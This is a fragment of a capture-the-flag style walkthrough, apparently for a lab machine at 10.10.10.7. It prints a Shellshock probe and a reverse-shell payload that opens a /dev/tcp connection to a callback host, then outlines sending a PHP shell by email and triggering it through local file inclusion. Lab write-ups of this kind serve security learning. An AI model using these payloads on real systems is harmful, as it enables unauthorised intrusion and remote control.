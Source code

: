 ![b16](https://user-images.githubusercontent.com/15195048/93913816-75e0ba00-fcba-11ea-9830-a1da431d0c07.png)

## Shellshock explanation


![b17](https://user-images.githubusercontent.com/15195048/93913818-76795080-fcba-11ea-9c26-5fdf7760b519.png)

![b18](https://user-images.githubusercontent.com/15195048/93913820-76795080-fcba-11ea-9488-60c4b41c7ad1.png)


**In the url session_login.cgi**
**Test shellshock cgi...**
**() { :; }; sleep 11**

**Burp Suite**

![b19](https://user-images.githubusercontent.com/15195048/93913822-7711e700-fcba-11ea-8f00-fb299a5fc0d6.png)


**() { :; }; bash -i &> /dev/tcp/10.10.14.12/9980 0>&1**

![b20](https://user-images.githubusercontent.com/15195048/93913826-77aa7d80-fcba-11ea-837a-168752d63b36.png)


## 4. Enumerating port 25 SMTP 

I will send a malicious e-mail and got a reverse shell.

**telnet 10.10.10.7 25 it works so.**

![b21](https://user-images.githubusercontent.com/15195048/93913829-77aa7d80-fcba-11ea-991e-8b347c66b627.png)

**Keywords:** “EHLO Host”, “VRFY user” “mail from:” "rcpt tp:"

We sent a php shell code within the mail. Lets try to execute the payload with LFI vulnerability. We can found our sent e-mail in 
/var/mail/asterisk location. 
We can read with burp suite or curl to execute the php shell.

User.txt
Root.txt

